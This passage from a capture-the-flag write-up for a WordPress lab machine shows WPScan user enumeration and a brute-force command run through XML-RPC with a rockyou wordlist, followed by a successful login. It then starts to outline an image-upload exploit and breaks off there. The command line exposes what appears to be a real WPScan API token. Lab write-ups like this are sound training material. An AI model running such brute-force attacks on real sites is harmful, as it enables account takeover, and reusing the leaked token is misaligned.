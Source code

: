 ```bash
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://blog.thm/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] Karen Wheeler
 | Found By: Rss Generator (Passive Detection)
 | Confirmed By: Rss Generator (Aggressive Detection)

[+] Billy Joel
 | Found By: Rss Generator (Passive Detection)
 | Confirmed By: Rss Generator (Aggressive Detection)

<REACTED>
```

We found that `XMLRPC` is enabled that allow us to brute-force the login form without limited attempts, we also found two users: `kwheel` and `bjoel`, let's try to brute-force the password for any of the found users.

```bash
❯ wpscan --url http://blog.thm -U bjoel,kwheel -P /usr/share/wordlists/rockyou.txt --api-token "WkDah4Og5UQhI6ZdhJrY5u855DH1CrubMqaTrlmjxvk"
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.28
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://blog.thm/ [10.10.95.6]
[+] Started: Sun Mar  9 14:48:30 2025

[+] Performing password attack on Xmlrpc against 2 user/s
[SUCCESS] - kwheel / *********                           
```

After some time, we get valid credentials for the user `kwheel`, this user is not an admin account, but the exploit we found do not require it.

Analyzing the exploit the workflow follows the next steps:

1. **Upload a Malicious Image**:
    
    - An attacker uploads a specially crafted image (e.g., `gd.jpg`) to WordPress.
        